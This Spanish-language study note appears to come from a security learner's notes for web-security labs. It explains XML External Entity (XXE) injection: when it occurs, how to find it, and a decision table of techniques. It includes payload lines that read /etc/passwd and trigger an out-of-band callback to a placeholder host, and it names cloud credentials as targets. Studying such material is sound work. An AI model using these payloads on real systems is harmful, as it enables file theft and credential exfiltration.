

---
aliases:
  - XXE
  - xxe-entrypoint
  - XML External Entity
  - XML external entity injection
tags:
  - vuln/xxe
  - entrypoint
---

# XXE — Punto de entrada

> Documento **agnóstico al negocio**: *cómo **detectar y explotar** XXE*.
> **Fundamentos** (qué es XML/DTD/entidades) → [[how-to-work/xml|Cómo funciona XML, DTD y entidades]].
> **PoCs completas por vector** → carpeta [[vulnerabilities/006-xxe/examples/001-leer-archivo-in-band|examples/ (001–008)]].
> **Dónde** aplica (qué endpoint come XML) → eso vive en los `STAGE_x`.

> [!abstract] La idea en una línea
> Si la app **parsea XML que vos controlás**, inyectás un `<!DOCTYPE>` con una **entidad `SYSTEM`** y el **parser** abre por vos un **archivo local**, una **URL interna (SSRF)** o **exfiltra** datos out-of-band. El bug no es de un template ni de un lenguaje: es del **parser XML** con features peligrosas habilitadas.

## 📚 Referencias rápidas

- 🧠 **Fundamentos** (qué es XML, entities, DTD internal/external, entidades general `&` vs de parámetro `%`) → [[how-to-work/xml|how-to-work/xml]]
- 🧪 **Laboratorios** — 9 labs (2 Apprentice + 6 Practitioner + 1 Expert), payload por lab → [[vulnerabilities/006-xxe/labs/README|labs/README]]
- 🐍 **Ejemplos / PoCs completas** (vector entero: request + `Content-Type` + DTD + verificación), del más simple al más rebuscado:
    - [[vulnerabilities/006-xxe/examples/001-leer-archivo-in-band|001 · leer archivo in-band]] · [[vulnerabilities/006-xxe/examples/002-xxe-a-ssrf-metadata-cloud|002 · XXE → SSRF]] · [[vulnerabilities/006-xxe/examples/003-xinclude-sin-controlar-el-xml|003 · XInclude]] · [[vulnerabilities/006-xxe/examples/004-xxe-por-subida-de-svg|004 · subida de SVG]]
    - Ciego: [[vulnerabilities/006-xxe/examples/005-xxe-ciego-callback-oob|005 · callback OOB]] · [[vulnerabilities/006-xxe/examples/006-xxe-ciego-exfiltrar-con-dtd-externo|006 · exfiltrar con DTD externo ⭐]] · [[vulnerabilities/006-xxe/examples/007-xxe-ciego-error-based-con-dtd-externo|007 · error-based]] · [[vulnerabilities/006-xxe/examples/008-xxe-ciego-reutilizar-dtd-local|008 · reutilizar DTD local]]
- 🛠️ **Scripts** (generadores de payloads en Python) → [[vulnerabilities/006-xxe/scripts/README|scripts/]] (`gen_svg_xxe.py` arma el SVG con el recurso parametrizable)
- 🔗 **XXE → SSRF:** la entidad puede apuntar a URLs internas / metadata cloud → [[vulnerabilities/007-ssrf/README|SSRF]].
- 🔗 **Superficie oculta:** SVG, DOCX/XLSX, SOAP, RSS = **XML** → cualquier [[vulnerabilities/017-file-upload-vulnerabilities/README|upload]] que los procese es candidato.

## 🎯 Cuándo hay XXE (condiciones)

1. **La app recibe XML que vos podés influir** — body `Content-Type: application/xml`, un `<!DOCTYPE>` en la request, un campo que termina dentro de un XML del server, o un archivo **SVG/Office** que se parsea.
2. **El parser resuelve entidades externas / DTDs** (no está endurecido). Si las resuelve → XXE.
3. **Para sacar datos** necesitás una vía de salida: **reflejo** (in-band), **OOB** (Collaborator), **error verboso**, o **DTD local** (último recurso).

## 🧪 Cómo cazarlo (metodología)

1. **Encontrá el XML.** Cualquier request cuyo body sea `<...>` (el clásico **"Check stock"** `POST /product/stock`), o un endpoint que acepte SVG/DOCX/SOAP.
2. **Probá una entidad in-band.** Meté una DTD interna y referenciá la entidad donde el valor se **refleje** en la respuesta:
   ```xml
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <!-- reemplazá un valor reflejado (p.ej. productId) por &xxe; -->
   ```
   - ¿Vuelve el contenido? → **XXE in-band** ✅.
3. **¿No refleja nada? → blind.** Probá interacción OOB (Collaborator):
   ```xml
   <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://COLLAB"> %xxe; ]>
   ```
   - Si con entidad **general** (`&xxe;`) no dispara, es porque el parser bloquea entidades generales externas → usá la de **parámetro** (`%`), como arriba.
4. **Elegí el vector** según lo que tengas (tabla + flujo abajo) y andá al ejemplo correspondiente.

> [!note] ¿Requiere enviar exploit?
> **No** en la mayoría: XXE se dispara en la **misma request** que mandás vos (Repeater). Solo necesitás infra externa (**exploit server** para la DTD, **Collaborator** para OOB) cuando es **blind**. No hace falta víctima/admin como en CORS/CSRF/XSS.

---

## 🧩 Árbol de decisión (cada fila → su ejemplo)

| Situación | Técnica | Ejemplo |
| --- | --- | --- |
| Controlás el XML **y la respuesta refleja** un archivo | **In-band file read** | [[vulnerabilities/006-xxe/examples/001-leer-archivo-in-band\|001 · in-band]] |
| Querés pegarle a algo **interno** | **XXE → SSRF** | [[vulnerabilities/006-xxe/examples/002-xxe-a-ssrf-metadata-cloud\|002 · SSRF]] |
| **No** controlás el documento (solo un valor) | **XInclude** | [[vulnerabilities/006-xxe/examples/003-xinclude-sin-controlar-el-xml\|003 · XInclude]] |
| El input es una **imagen / archivo** | **XXE en SVG/Office** | [[vulnerabilities/006-xxe/examples/004-xxe-por-subida-de-svg\|004 · SVG]] |
| Blind, **solo confirmar** | **OOB** (Collaborator) | [[vulnerabilities/006-xxe/examples/005-xxe-ciego-callback-oob\|005 · OOB]] |
| Blind, querés el **contenido** | **DTD externa** (exfil) | [[vulnerabilities/006-xxe/examples/006-xxe-ciego-exfiltrar-con-dtd-externo\|006 · exfil ⭐]] |
| Blind, hay **errores verbosos** | **Error-based** | [[vulnerabilities/006-xxe/examples/007-xxe-ciego-error-based-con-dtd-externo\|007 · error-based]] |
| Blind, **sin salida a internet** | **Reutilizar DTD local** | [[vulnerabilities/006-xxe/examples/008-xxe-ciego-reutilizar-dtd-local\|008 · DTD local]] |

## 🗺️ Qué probar primero (flujo)

Del más simple al más rebuscado — cada rama termina en el ejemplo a abrir:



---

> [!tip] Reglas mentales
> - **`&x;`** = cuerpo del XML (in-band) · **`%x;`** = dentro del DTD (blind/encadenado).
> - **General externa bloqueada → parámetro (`%`).** Es el primer escalón cuando falla lo obvio.
> - **No controlás el doc → XInclude.** Imagen → **SVG**. Sin salida → **DTD local**.
> - **Objetivos típicos:** `/etc/passwd`, `/etc/hostname`, credenciales cloud vía SSRF, o probar OOB.

> [!note] Relación con otras vulns
> - **SSRF** — XXE es un vector clásico para llegar a la red interna/metadata → [[vulnerabilities/007-ssrf/README|SSRF]].
> - **File upload** — SVG/DOCX/SOAP son XML: un upload que los parsea = superficie XXE → [[vulnerabilities/017-file-upload-vulnerabilities/README|file upload]].
> - **SSTI** — si buscabas "qué template engine usa", eso es otra vuln → [[vulnerabilities/009-server-side-template-injection/README|SSTI]] (XXE no usa templates, usa el parser XML).
